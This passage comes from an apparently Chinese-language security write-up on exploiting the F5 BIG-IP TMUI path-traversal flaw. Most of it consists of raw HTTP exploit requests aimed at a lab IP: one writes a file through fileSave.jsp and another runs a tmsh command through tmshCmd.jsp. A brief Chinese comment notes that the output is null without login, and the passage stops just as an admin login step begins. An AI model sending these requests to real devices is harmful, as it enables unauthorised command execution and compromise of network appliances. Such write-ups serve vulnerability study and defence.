 ```
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHvMDolYbo4iadayPrziaZh8CTRHLygvUtt1IVGbrWjZ1re4yw5Ta1ZBnA/640?wx_fmt=png "")  

```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/cmd&content=id HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F


```

  
在未登录情况下会输出为null：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHwa7I99TlQM5TjKDaTkeqfhnibciavsicsWgMgkuzvfHf0SadLfvqqQUpA/640?wx_fmt=png "")  

```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+/tmp/cmd HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F


```

  
之后模拟用户admin进行登陆  
：  
  